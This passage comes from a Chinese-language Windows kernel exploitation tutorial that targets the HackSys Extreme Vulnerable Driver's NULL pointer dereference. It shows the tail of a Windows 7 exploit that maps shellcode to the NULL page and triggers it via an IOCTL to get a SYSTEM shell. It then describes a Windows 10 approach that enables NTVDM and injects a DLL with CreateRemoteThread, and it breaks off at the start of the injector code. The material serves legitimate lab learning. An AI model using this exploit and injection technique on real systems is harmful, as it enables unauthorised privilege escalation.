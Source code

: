 ```
    memcpy((void*)0x100, shellcode, sizeof(shellcode));

    printf("[*] Sending IOCTL to trigger exploitn");
    memset(exploit, 'A', sizeof(exploit));
    DeviceIoControl(
        driverHandle,
        HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE,
        exploit,
        sizeof(exploit),
        NULL,
        0,
        NULL,
        NULL
    );
    printf("[*] Done, enjoy your new system shell :)n");

    return 0;
`}`
```

最后，成功运行：

[![](https://p2.ssl.qhimg.com/t01893845da8ae3d6af.gif)](https://p2.ssl.qhimg.com/t01893845da8ae3d6af.gif)在Windows 7成功利用漏洞之后，我们开始研究Windows 10。

## Windows 10漏洞利用

Windows在新版本中，引入了安全保护，防止用户进程映射NULL页，因此我们在上面的例子中所进行的操作就无法实现了。我们必须寻找一种替代方案，这时，NTVDM和NT虚拟DOS主机映入我们的脑海。<br>
NTVDM是一个Windows 10 x86上的可选功能，用于支持16位应用程序。为了运行16位应用程序，系统将会启动名为NTVDM.exe的进程，并会映射NULL页。我之前在我关于WARBIRD（ [https://blog.xpnsec.com/windows-warbird-privesc/](https://blog.xpnsec.com/windows-warbird-privesc/) ）的帖子中利用过这一漏洞，今天我们将再次利用。<br>
为了利用NTVDM.exe映射的NULL页，我们将在进程中注入一个DLL，并复制我们的Shellcode。但是，利用这个漏洞时需要注意一些事项：<br>
1、NTVDM子系统默认是禁用的；<br>
2、需要管理员账户才可以启用此功能。<br>
我们在测试机器上用以下命令设置NTVDM：<br>
fondue /enable-feature:ntvdm /hide-ux:all<br>
现在，如果我们运行一个16位的应用程序，比如debug.exe，我们将看到NTVDM.exe进程启动：<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019ae7449c695970e6.png)<br>
接下来，我们需要NTVDM加载我们得漏洞。为此，我们将会使用典型的VirtualAllocEx/WriteProcessMemory/CreateRemoteThread技术来加载DLL。我正在计划写一篇关于进程注入的文章，因此在这里并不会过多介绍这一方法的细节。而我们注入的内容可以在下面看到，此前有一篇相关的博客文章，感兴趣的话可以阅读：[https://blog.xpnsec.com/windows-warbird-privesc/](https://blog.xpnsec.com/windows-warbird-privesc/) 。

```
#include "stdafx.h"

void PrintUsage(void) `{`
    printf("Windows NTVDM DLL Injectionn");
    printf("Created by @_xpn_n");
`}`

int main(int argc, char **argv)
`{`
    int pid = 0;
    HANDLE pHandle;
    SIZE_T written = 0;
    void *destMem, *loadLibrary;
    char currentDir[MAX_PATH];
    char dllPath[MAX_PATH];

    PrintUsage();

    if (argc != 2) `{`
```